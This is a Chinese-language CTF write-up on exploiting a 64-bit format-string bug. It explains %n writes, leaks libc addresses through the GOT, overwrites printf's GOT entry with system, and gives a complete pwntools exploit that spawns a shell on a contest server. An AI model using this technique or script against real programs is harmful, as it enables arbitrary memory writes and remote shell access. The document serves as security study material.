 #格式化字符串
题目是老计出的校赛题。给了程序和lib库  
ida启动.jpeg f5  
&emsp;&emsp;可以看出read将用户输入的数据存在栈中，而且printf没有对输出的字符串做格式化，可以通过格式化漏洞对内存进行任意读写；  
&emsp;&emsp;首先进行一些简单的尝试，用ida找到调用printf函数处，下断点；  
  
<img src="/images/20181107/1.png" />  
 --------------------- 
####先预习一下格式化字符串的利用:
&emsp;&emsp;%c: 输出字符，配上%n可用于向指定地址写数据。  
&emsp;&emsp;%d: 输出十进制整数，配上%n可用于向指定地址写数据。  
&emsp;&emsp;%x: 输出16进制数据，如%i$x表示要泄露偏移i处4节长的16进制数据，%i$lx表示要泄露偏移i处8字节长的16进制数据，32Bit和64Bit环境下一样。  
&emsp;&emsp;%p：输出16进制数据，与%x基本一样，只是附加了前缀0x，在32bit下输出4字节，在64bit下输出8字节，可通过输出字节的长度来判断目标环境是32bit还是64bit。    
&emsp;&emsp;%s：输出的内容是字符串，即将偏移处指针指向的字符串输出，如%i$s表示输出偏移i处地址所指向的字符串，在32bit和64bit环境下一样，可用于读取GOT表等信息。    
&emsp;&emsp;
%n：将%n之前printf已经打印的字符个数赋值给偏移处指针所指向的地址位置，如%100x%10$n表示将0x64写入偏移10处保存的指针所指向的地址（4字节），而%$hn表示写入的地址空间为2字节，%$hhn表示写入的地址空间为1字节，%$lln表示写入的地址空间为8字节，在32bit和64bit环境下一样。有时，直接写4字节会导致程序崩溃或等候时间过长，可以通过%$hn或%$hhn来适时调整。  
&emsp;&emsp;
%n是通过格式化字符串漏洞改变程序流程的关键方式，而其他格式化字符串参数可用于读取信息或配合%n写数据。  
  
-----
&emsp;&emsp;输入%p,发现打印出的地址为`0x7ffff7dd2683`，而栈顶的地址为`0x7fffffffdf40` &emsp;(这里我不太明白，为什么写入是从rdi指针指向的偏移量为8的栈地址处开始的，然后printf的打印的内容从这里以前偏移量为8的位置开始。。也就是说输入%8p的时候才打印输入的内容。  
  
<img src="/images/20181107/2.png" />     
  
&emsp;&emsp;尝试了一下`%i$s`，打印偏移量为i的所存地址中的内容。由于可以写入内容到栈中，可以构造`%i$p+ padding*(( i-8 )*8-i) + (要读的地址)` 这样的形式来对指定内容进行读取，这就是格式化字符串中所说的任意读。  
  
&emsp;&emsp;然后尝试了一下`%n`,,pwntools中有fmtstr_payload简易化写入payload的构造，但其局限与32位，由于这题是64位的，还得自己手动打payload，由于基础知识的缺少，这里坑了好久。。尝试了许多次%n输入，gdb 中使用dd查看内存却老是看不到自己想要打印的内容，逐渐认识到以下两点:  
  
1. 通过`%{}x%i$n.format()`的格式写入时，是将前面括号内的十进制数字转换位16进制写入，当通过此格式写入第二个时，构造payload要将后面的地址的部分的值减去前面一次输入的值，也就是第二次程序将会把前一次括号内的值加上后一次括号内的值的和的十六进制作为输入的值，这里又是坑多多，当地址值恰好第一次的值小，第二次的值大，相减作出的负值是行不通的，大概是输入的‘-’号不能被机器理解成负号。。。于是构造payload要么写多种情况，，要么就将payload多试几次= =（可能有别的方法我不知道= =#)  
2. 当写入的值太大时程序会发生崩溃，因此可以使用%hn %hnn来分别写入2个字节、1个字节，此题读出的地址值为5字节，可以分为1，2，2来写入，！！注意把要写入的地址拆分成3个后，要把他们写入各自相应的地址内。
  
  
&emsp;&emsp;接下来的思路就是，算出system在内存中的值，然后把printf在got表中的值替换为system的地址，再把`'/bin/sh\x00'`输入作为printf的参数，实际上就是运行了`system('/bin/sh')`的指令。  
&emsp;&emsp;system的值可以用任意写先获得got表中任意函数在内存中的值，然后根据题目给的lib库的相对偏移计算。（这里又有坑）  
&emsp;&emsp; 我第一次是通过泄露printf的值来计算system的地址，调了半天不行，才发现泄露的并不是printf的地址而是栈中后续的内容，构造的`printf("%i$s",printf_got) `源程序中的`printf(&buf,&buf)`
； 所以是`printf("%i$s","aaaa...printf_got" ,"%i$s","aaaa...printf_got")`&emsp&emsp??  
&emsp;&emsp;总之是打不出来printf的地址，但是换一个函数的地址打就ok  
  
另外学到一个加载题目给的库的方法  
  
<img src="/images/20181107/3.png" />   
  
最后是exp：  
  
    from pwn import *
	#p=process('./pwn6',env={'LD_PRELOAD':'../libc-2.23.so'})


	p=remote("123.206.131.120",10006)

	elf=ELF('./pwn6')
	libc=ELF('libc-2.23.so')
	printf_got=elf.got['printf']
	puts_got=elf.got['puts']
	setbuf_got=elf.got['setbuf']
	puts_offset=libc.symbols['setbuf']-libc.symbols['puts']
	system_offset=libc.symbols['setbuf']-libc.symbols['system']
	print p.recv()
	#gdb.attach(p)
	p.sendline('\x25\x31\x31\x24\x73\x00'+'\x25\x31\x32\x24\x73\x00'+'a'*12+p64(setbuf_got)+p64(printf_got))
	print p.recvline()
	setbuf_addr = u64(p.recvline()[:5]+'\x00\x00\x00')
	log.info('printf:'+hex(setbuf_addr))
	p.sendline('\x25\x31\x31\x24\x73'+'a'*19+p64(puts_got))
	print p.recvline()
	puts_addr = u64(p.recvline()[:5]+'\x00\x00\x00')
	log.info('puts:'+hex(puts_addr))
	log.info('puts_offset:'+hex(setbuf_addr-puts_offset))
	system_addr=setbuf_addr-system_offset
	log.info('system_addr:'+hex(system_addr))
	
	offset_5=(system_addr & 0x0000ffff00000000)>>32
	offset_34=(system_addr& 0x00000000ffff0000)>>16
	offset_12=system_addr & 0x000000000000ffff
	
	
	
	if  offset_12 > offset_34 :
		payload='%{}x%13$hhn'.format(  offset_5  )
		payload+='%{}x%14$hn'.format(   offset_34 - offset_5    )
		payload+='%{}x%15$hn'.format(    offset_12 - offset_34   )
		log.info('positive')
	else:
		payload='%{}x%13$hhn'.format(  offset_5  )
		payload+='%{}x%15$hn'.format(  offset_12 - offset_5  )
		payload+='%{}x%14$hn'.format(    offset_34 - offset_12    )
		log.info('negative')
	
	top=len(payload)
	payload+=(40-top)*'a'+p64(printf_got+0x4)+p64(printf_got+0x2)+p64(printf_got)

	#gdb.attach(p)
	raw_input()
	log.info('payload:'+payload)
	p.send(payload)
	p.recv()
	p.sendline('\x00\x00/bin/sh\x00')
	p.interactive()



最后还有一个要注意的地方，，最后发送的参数这里是`'\x00\x00/bin/sh\x00'`，前面放了几个‘垫片’，是因为说找不到in/sh啥的，估计是偏移的问题，虽然能拿到shell，但是使用次数仅在他的循环次数内，就酱紫。